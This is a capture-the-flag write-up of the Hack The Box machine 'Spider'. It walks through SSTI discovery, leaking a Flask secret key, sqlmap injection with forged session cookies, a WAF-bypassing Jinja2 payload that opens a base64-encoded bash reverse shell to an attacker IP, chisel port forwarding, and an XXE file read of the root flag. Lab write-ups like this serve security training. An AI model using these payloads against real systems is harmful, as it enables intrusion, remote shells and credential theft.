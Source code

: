 ```yaml
---
title: Spider
tags: 
    - SQL Injection
    - Jwt Tampering
    - XXE
    - "Hard Machines"
category:
    - "Hack The Box Writeup"
date: 2022-01-13
description: "Hack The Box Machine - Spider writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/E2ZXCszXoAUpjh0?format=jpg&name=4096x4096" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Open Ports

```bash
# Nmap 7.91 scan initiated Sun May 30 00:34:18 2021 as: nmap -sC -sS -sV -vv -oN nmap.txt spider.htb
Nmap scan report for spider.htb (10.10.10.243)
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2021-05-30 00:34:25 IST for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZKP7Ebfve8CuM7AUHwkj38Y/0Pw04ub27AePqlhmH8FpgdDCkj3WINW8Yer3nmxZdh7zNadl6FZXYfmRRl/K3BC33Or44id3e8Uo87hMKP9F5Nv85W7LfaoJhsHdwKL+u3h494N1Cv0n2ujJ2/KCYLQRZwvn1XfS4crkTVmNyrw3xtCYq0aCHNYxp51/WhNRULDf0MUMnA78M/1K9+erVCg4tOVMBisu2SD7SHN//E2IwSfHJTHfyDj+/zi6BbKzW+4rIxxJr2GRNDaPlYXsm3/up5M+t7lMIYwHOTIRLu3trpx4lfWfIKea9uTNiahCARy3agSmx7f1WLp5NuLeH
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLxMnAdIHruSk1hB7McjxnudQ7f6I5sKPh1NpJd3Tmb9tedtLNqqPXtzroCP8caSRkfXjtJ/hp+CiobuuYW8+fU=
|   256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJq0AuboJ6i4Hv3fUwQku//NLipnLhz1PfrV5KZ89eT
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: F732B9BF02F87844395C3A78B6180A7E
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to Zeta Furniture.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 00:34:40 2021 -- 1 IP address (1 host up) scanned in 22.51 seconds
```
## Web Enumeration

{{< figure src="images/20210531100053.png">}}

* We land on the above webapp. I tried to enumerate subdomains, UDP ports, Directories Nothing useful. 

* But if u notice the above screenshot, I can see there is `%` in Discount. I felt like it was using Template. So I tried SSTI idetification payload `{{7*7}}`.
* I ran that payload in all the fields available to see if its rendered. Eventually the signup page renders it.

{% asset_img 20210531100513.png %}
{% asset_img 20210531100623.png %}

* It has been rendered and the output can be seen in `/user`.
---
## FootHold
Let's try to extract the config `{{config}}`
{{< highlight json >}}
{
  "ENV": "production",
  "DEBUG": "False",
  "TESTING": "False",
  "PROPAGATE_EXCEPTIONS": "None",
  "PRESERVE_CONTEXT_ON_EXCEPTION": "None",
  "SECRET_KEY": "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942",
  "PERMANENT_SESSION_LIFETIME": "datetime.timedelta(31)",
  "USE_X_SENDFILE": "False",
  "SERVER_NAME": "None",
  "APPLICATION_ROOT": "/",
  "SESSION_COOKIE_NAME": "session",
  "SESSION_COOKIE_DOMAIN": "False",
  "SESSION_COOKIE_PATH": "None",
  "SESSION_COOKIE_HTTPONLY": "True",
  "SESSION_COOKIE_SECURE": "False",
  "SESSION_COOKIE_SAMESITE": "None",
  "SESSION_REFRESH_EACH_REQUEST": "True",
  "MAX_CONTENT_LENGTH": "None",
  "SEND_FILE_MAX_AGE_DEFAULT": "datetime.timedelta(0, 43200)",
  "TRAP_BAD_REQUEST_ERRORS": "None",
  "TRAP_HTTP_EXCEPTIONS": "False",
  "EXPLAIN_TEMPLATE_LOADING": "False",
  "PREFERRED_URL_SCHEME": "http",
  "JSON_AS_ASCII": "True",
  "JSON_SORT_KEYS": "True",
  "JSONIFY_PRETTYPRINT_REGULAR": "False",
  "JSONIFY_MIMETYPE": "application/json",
  "TEMPLATES_AUTO_RELOAD": "None",
  "MAX_COOKIE_SIZE": 4093,
  "RATELIMIT_ENABLED": "True",
  "RATELIMIT_DEFAULTS_PER_METHOD": "False",
  "RATELIMIT_SWALLOW_ERRORS": "False",
  "RATELIMIT_HEADERS_ENABLED": "False",
  "RATELIMIT_STORAGE_URL": "memory://",
  "RATELIMIT_STRATEGY": "fixed-window",
  "RATELIMIT_HEADER_RESET": "X-RateLimit-Reset",
  "RATELIMIT_HEADER_REMAINING": "X-RateLimit-Remaining",
  "RATELIMIT_HEADER_LIMIT": "X-RateLimit-Limit",
  "RATELIMIT_HEADER_RETRY_AFTER": "Retry-After",
  "UPLOAD_FOLDER": "static/uploads"
}
{{< /highlight >}}


### JWT SECRET_KEY

```
Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```

Now am guessing there is SQLi in the website similar to `PROPER HTB BOX`. As the JWT token hints me about the hash in it as a tamper checker.

Now as we inject with SQLi with `SQLMAP` the JWT Token should also change as the value of the JWT Paramert will change. 

So we shall automate it with [PYTHON FLASK UNSIGN](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)


### SQLMAP QUERY

```bash
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --delay 1 --dump
```

For some reason I wasn't able to use `--batch` flag to automate the answering SQLMAP questions.

So answer to the questions as Follow:
```
Y
N
N
N
```
Note: If you get a quesiton with no `y or n` as option enter `c`.


From The SQLMAP DUMP

{% asset_img 20210531102046.png %}

I logged in as chiv and I got access to adminapp.

**CREDENTIALS:** `129f60ea-30cf-4065-afb9-6be45ad38b73:ch1VW4sHERE7331`

I got Adminapp 
{{< figure src="images/20210531102419.png">}}

There was note left:

{{< figure src="images/20210531102433.png">}}

Upon visiting `http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal`

I got Support portal and I tried to do SSTI again. It had a WAF. So let's bypass it 

{{< figure src="images/20210531102543.png">}}
{{< figure src="images/20210531102549.png">}}
{{< figure src="images/20210531102627.png">}}

So upon trying lot's of payloads and bypassing characters. By using hex for `_` and `Base64encode` for `.` and stuff.

I ended up with following payload.

```python
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNi85MDAxIDA+JjE= | base64 -d | bash")["read"]() %} a {% endwith %}
```

I got shell as `Chiv` and I converted the current shell to `SSH`. 

**I GOT USER FLAG!**

---

## PRIVILEGE ESCALATION

### XXE

* I can see open ports in local host with `8080`, I got another webpage.
Let's exploit it. I used chisel to port forward it.

```
[LOCAL MACHINE]: ./chisel server -p 8000 -reverse -v


[REMOTE MACHINE]: ./chisel client 10.10.14.26:8000 R:8080:127.0.0.1:8080
```

* After enumerating the page.... `<` as name gives some error this makes me wonder if it has XXE. 
 
* I also found an hidden parameter, which can be made visible by inspect element in web browser and change it from `hidden` to `show`.

{{< figure src="images/20210531103552.png" >}}


in the email section put `&grem;` and in version have to put `1.0.0--><!DOCTYPE root [<!ENTITY grem SYSTEM 'file:///root/root.txt'>]> <!--`

**I GOT ROOT FLAG!**